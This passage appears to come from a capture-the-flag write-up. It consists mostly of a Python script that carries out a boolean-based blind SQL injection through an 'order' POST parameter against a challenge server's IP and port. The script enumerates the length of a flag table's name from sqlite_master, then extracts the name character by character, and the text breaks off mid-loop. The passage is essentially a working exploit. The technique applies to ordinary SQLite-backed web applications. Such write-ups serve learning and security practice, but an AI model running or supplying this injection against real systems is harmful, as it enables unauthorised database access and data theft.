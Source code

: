 Here is the full script I wrote in a hurry during the event, so it may look bad but it gets the job done!

```python
import requests, time

proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'} # burp

def send_payload(url,sqli):
	_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Cache-Control": "max-age=0", "Content-Type": "application/x-www-form-urlencoded"}
	_data = {"order": sqli}
	resp = requests.post(url, headers=_headers, data=_data).text
	if 'alien' in resp:
		return True
	else:
		return False


def sqli():
	url = "http://138.68.168.137:31279/api/list"

	sqli_temp = '1 limit _LEFT_ = _RIGHT_'
	
	# get length of flag table name
	left = '(select length(name) from sqlite_master where name like \'flag%\')'

	for i in range(1,21): # guessing flag table name would be max 20 chars

		sqli = sqli_temp.replace('_LEFT_',left)
		sqli = sqli.replace('_RIGHT_',str(i))

		#print(sqli)
		print(i,end='\r')

		res = send_payload(url,sqli)

		if res:
			dataLength = i
			break 

	print("\n\n[+] Found tablename length: %s\n" % dataLength)

	flag_table = 'flag_'

	# extract flag table name
	
	for charPos in range(6,dataLength+1): # dataLength is either known or we extracted it beforehand

		left = '(select unicode(substr(name,_POS_,1)) from sqlite_master where name like \'flag%\')'.replace('_POS_',str(charPos))

		for char in range(32,127): # printable ascii range 32 to 126
			sqli = sqli_temp.replace('_LEFT_',left)
			sqli = sqli.replace('_RIGHT_',str(char))
			#print(sqli)
			res = send_payload(url,sqli)

			if res:
				flag_table = flag_table + chr(char) # append to extracted data from ascii to char
```